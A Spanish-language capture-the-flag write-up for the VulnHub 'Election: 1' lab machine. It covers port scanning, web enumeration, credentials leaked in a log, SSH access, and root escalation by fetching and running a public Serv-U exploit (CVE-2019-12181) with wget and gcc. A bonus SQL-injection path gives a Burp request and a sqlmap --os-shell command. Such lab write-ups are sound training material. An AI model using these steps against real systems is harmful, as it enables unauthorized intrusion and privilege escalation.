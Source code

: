 # VulnHub - Election: 1 Writeup

## Primer paso: Escaneo de puertos
Anotamos nuestra IP

```bash
sudo ifconfig
```

![Consola](img/1.png)

En este caso será 192.168.226.128

Luego, es necesario encontrar la máquina a vulnerar. Esto se puede hacer con arp-scan o nmap. En este caso se le pedirá a nmap que escanee todas las IPs en nuestro rango.

```bash
nmap 192.168.226.0-255 -n
```

* Se añade el parámetro -n para que no haga la resolución DNS y aligerar el escaneo.

![Consola](img/2.png)

- 192.168.226.2 :Tiene abierto el puerto 53, que se usa para DNS, por lo que se descarta esta máquina.
- 192.168.226.128: Es la máquina atacante.
- 192.168.226.132: Tiene abiertos los puertos 22 (ssh) y 80 (http), es la máquina víctima.
- 192.168.226.254: No parece que tenga puertos abiertos.

Realizamos un escaneo en mayor profundidad:

```bash
sudo nmap -vvv -sV -sC 192.168.226.132 -p 22,80 -n -Pn -oN escaneo
```

Las flags empleadas realizarán lo siguiente:
- vvv: Proporciona los resultados por pantalla según se encuentren
- sV: Muestra la versión del servicio corriendo en el puerto
- sC: Corre contra esos servicios scripts predeterminados
- p: Los puertos a escanear
- n: Indica que no se debe de realizar la resolución DNS
- Pn: Le decimos a nmap que el host está encendido, por lo que no debe de comprobarlo previamente.
- oN: Guarda la salida en un archivo llamado escaneo

![Consola](img/3.png)

## Segundo paso: Exploración web

No proporciona mucha información. Procedemos a explorar la página web:

![Consola](img/4.png)

Es un servidor Apache. Buscaremos directorios y archivos en él con gobuster:

```bash
sudo gobuster dir -u 192.168.226.132 -w /usr/share/dirb/wordlists/common.txt
```

![Consola](img/5.png)

Encontrará una carpeta /phpmyadmin, la cual es una herramienta de PHP emplada para usar MySQL en las páginas web, aunque nos pide un usuario y contraseña.

![phpMyAdmin](img/6.png)

También un archivo robots.txt, usado por los desarrolladores para que los motores de búsqueda no indexen ciertas URL. El archivo posee los siguientes nombres:

![robots.txt](img/7.png)

La única URL que funcionará es /election:

![Página web](img/8.png)

Volveremos a escanear todas las URL, esta vez con dirb, que estanea recursivamente:
```bash
sudo dirb http://192.168.226.132:80/election
```
![Consola](img/9.png)

Y encontraremos la URL http://192.168.226.132/election/admin/logs/.  Al entrar podremos descargar el archivo system.log, que tiene el siguiente contenido:

![Consola](img/10.png)

## Tercer paso: SSH y escalado de privilegios

Probaremos el usuario y contraseña a través de SSH.

![Consola](img/11.png)

Encontraremos la flag del usuario en el escritorio:

![Consola](img/12.png)

Buscamos algún archivo que se pueda ejecutar con permisos de root:

```bash
find / -perm /4000 2>/dev/null
```

Encontramos el archivo "/usr/local/Serv-U/Serv-U" el cual es vulnerable a CVE-2019-12181.

El exploit se encuentra en [GitHub](https://github.com/mavlevin/CVE-2019-12181/blob/master/servu-pe-cve-2019-12181.c)

Para usarlo se siguen estos pasos:

1. wget https://raw.githubusercontent.com/mavlevin/CVE-2019-12181/master/servu-pe-cve-2019-12181.c
2. gcc servu-pe-cve-2019-12181.c -o exploit
3. chmod +x exploit
4. ./exploit

![Consola](img/13.png)

Y con esto podemos acceder a la flag de root:

![Consola](img/14.png)


## Bonus: SQL Injection

Aunque hay una forma alternativa de llegar a este resultado. A través de phpmyadmin, se puede acceder al panel de control con el usuario root y la contraseña toor:

![Consola](img/15.png)

En la tabla "tb_panitia" encontramos un usuario lova y una contraseña.

![Consola](img/16.png)

Al buscar la contraseña en Google encontraremos que es un hash de MD5:

![Consola](img/17.png)

Con el id (no_induk) y la contraseña se podrá entrar en el panel de control en la URL http://192.168.226.132/election/admin/:

![Consola](img/18.png)

Encontramos entre las opciones el framework utilizado y su versión:

![Consola](img/19.png)

Lo buscamos en la base de datos de exploit-db:

```bash
searchsploit eLection
```

![Consola](img/20.png)

Y es vulnerable a un SQL Injection. Buscamos más información en [exploit-db](https://www.exploit-db.com/exploits/48122)

Proporciona un fragmento de una petición de BurpSuite y un código bash:

```
POST /election/admin/ajax/op_kandidat.php HTTP/1.1
Host: HOSTNAME
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://HOSTNAME/election/admin/kandidat.php?_
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 17
Connection: close
Cookie: el_listing_panitia=5; el_mass_adding=false; el_listing_guru=5; el_listing_siswa=5; PHPSESSID=b4f0c3bbccd80e9d55fbe0269a29f96a; el_lang=en-us

aksi=fetch&id=256
```

```bash
sqlmap -r getcandidate --level=5 --risk=3 --os-shell -p id
```

Cambiamos HOSTNAME de las líneas 2 y 7 por la dirección IP de la máquina víctima y guardamos el archivo como "getcandidate".

Sin embargo, este error ya ha sido arreglado y no funciona:

![Consola](img/21.png)